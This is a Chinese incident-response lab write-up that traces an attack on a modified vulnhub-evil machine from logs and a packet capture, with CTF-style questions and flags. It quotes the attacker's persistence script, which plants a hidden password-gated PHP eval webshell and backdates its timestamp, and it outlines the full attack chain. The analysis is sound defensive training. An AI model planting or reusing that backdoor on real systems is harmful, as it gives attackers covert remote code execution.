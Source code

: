 ## 前言

> 环境来源：[州弟学安全|学习干货|详解一次简单的综合应急响应学习思路](https://mp.weixin.qq.com/s?__biz=MzkzMDE5OTQyNQ==&mid=2247484404&idx=1&sn=a340aa925da61fd48f3fb19a17d2c71d&chksm=c27ca11af50b280cabf4270312c9482b6d3cd8a35865cd8f1e58e1d4f3cb37e2020364351100&cur_album_id=3203819529227649027&scene=189#wechat_redirect)

主要是学习思路，靶机原型为vulnhub-evil，其中做了部分改动，以蓝方视角呈现，只作为总结、较为简单、缕清思路，学习的过程及总结的意义远大于所需的结果！

> ```
> 文章结尾会注明攻击者大概思路、不要疑惑为什么有直接的入侵方式还这么麻烦一万个人有一万个人攻击方法，一个站有十个洞肯定是要全都搜集一遍提交，主要是为了学习思路
> ```

## 环境下载

```
系统：Debian 4.19.194
Linux账号密码：root/root123
镜像扩展名：.OVA
```

通过网盘分享的文件：security3.zip

靶机环境获取地址：

- https://cloud.189.cn/t/aeYRRfb6ZNNn （访问码：pnt1）
- https://pan.baidu.com/s/14cKKrLItm8BoVwCQFxl15Q 提取码: 5ajt 

## 题目

```
应急响应-简单综合应急响应
说明: 抓取的流量包: result.pcap 在 /result.pcap
1.审计日志及流量包，攻击者通过下载的木马文件的源地址是？
2.根据流量包特征，远控工具使用的哪个？
3.审计流量包，木马文件连接密码是什么？
4.审计流量包，攻击者反弹的IP和端口是什么？
5.攻击者通过某服务写入了木马，请写出攻击者上传的木马文件名
6.写出并分析写入的木马文件内的flag字段
7.攻击者在服务器内权限维持请求外部地址和恶意文件的地址 flag{http://xxxxxxxxxx/xx.xxx}
```

## 开始挑战

### 1.审计日志及流量包，攻击者通过下载的木马文件的源地址是？

> flag{192.168.150.253}

```bash
awk '{print $1}' access.log.1|sort|uniq -c|sort -nr
```

![image-20240915210820567](./imgs/image-20240915210820567.png)

`http.request.uri contains "shell.php"`

![image-20240915220117887](./imgs/image-20240915220117887.png)

### 2.根据流量包特征，远控工具使用的哪个？

> flag{蚁剑}

> 参考:[先知社区|蚁剑流量分析](https://xz.aliyun.com/t/14162?time__1311=GqAxu7G%3DoewxlxGg2DyDmor%2Bqqg80iioD)

蚁剑 base64加密

(1) 连接密码直接暴露 (2) eval函数明显 (3) 多个'_'符号进行分割

![image-20240915215309957](./imgs/image-20240915215309957.png)

![image-20240915215521069](./imgs/image-20240915215521069.png)

### 3.审计流量包，木马文件连接密码是什么？

对流量包对应条件过滤筛选后，查看.shell.php操作记录

第50962条流量中，攻击者使用 'pwd' 作为密码连接，但是连接失败

![image-20240915220929965](./imgs/image-20240915220929965.png)

后续流量攻击者使用 'cmd' 作为密码进行操作，可以成功执行

![image-20240915221019504](./imgs/image-20240915221019504.png)

![image-20240915221051792](./imgs/image-20240915221051792.png)

### 4.审计流量包，攻击者反弹的IP和端口是什么？

> flag{192.168.150.199:4444}

从攻击者视角来看，蚁剑作为伪终端无法进行很多操作，攻击者想要反弹shell进行后续操作，分析流量包可以看出

在报文中，依次按照顺序查看value，取出操作值(base64编码),进行解码

![image-20240915221714099](./imgs/image-20240915221714099.png)

### 5.攻击者通过某服务写入了木马，请写出攻击者上传的木马文件名

> flag{module.so}

在机器中看到了当前开放的业务端口，查看redis服务的版本

![image-20240915212406316](./imgs/image-20240915212406316.png)



查看redis服务的日志 /var/log/redis.log 翻看到相关连接日志：` cat /var/log/redis.log`

![image-20240915212511137](./imgs/image-20240915212511137.png)

攻击者192.168.150.199连接到redis，上传到根目录下module.so文件，且根据当前redis版本及目前配置，可以判断攻击者使用了redis-getshell

### 6.写出并分析写入的木马文件内的flag字段

> flag{XJ_78f012d7-42fc-49a8-8a8c-e74c87ea109b}

![image-20240915214428215](./imgs/image-20240915214428215.png)

### 7.攻击者在服务器内权限维持请求外部地址和恶意文件的地址 flag{http://xxxxxxxxxx/xx.xxx}

> flag{http://192.168.150.199:88/shell.php}

攻击者使用redis拿到root权限后，尝试进行权限维持，写入或下载方式放置后门

![image-20240915213314252](./imgs/image-20240915213314252.png)

通过查看 /etc/crontab文件看到，攻击者通过写入定时任务，请求/opt/cron.sh

![image-20240915213327565](./imgs/image-20240915213327565.png)

查看`.shell.php`

![image-20240915213504200](./imgs/image-20240915213504200.png)

**通过grep命令查看到 /var/www/html/secret/index.php 有相关的定时写入动作(上帝视角)**

![image-20240915213637704](./imgs/image-20240915213637704.png)

```php
<?php
    $file = '/var/www/html/secret/.shell.php';
    $code = '<?php if(md5($_POST["password"])=="accc9105df5383111407fd5b41255e23"){@eval($_POST[\'cmd\']);} ?>';
    file_put_contents($file, $code);
    system('touch -m -d "2023-12-20 12:01:50" /var/www/html/secret/.shell.php');
    usleep(5000);
?>
```

## 总结

**攻击者视角**

```
1. 攻击者前期通过nmap等相关工具扫描端口
2. 通过扫描的端口先进行目录探测(即使发现redis)
3. 探测到可以命令执行的php文件(原靶机为文件包含)
4. 命令执行后以wget的方式下载一句话木马到靶机
5. 使用蚁剑连接做系统命令执行操作
6. 蚁剑终端所做操作有限，尝试使用系统工具反弹shell
7. 反弹到shell后、当前权限低，尝试提权
8. 查看系统运行服务及配置后对redis进行getshell
9. 通过redis-getshell拿到root权限10. 做权限维持、写入或下载后门木马
```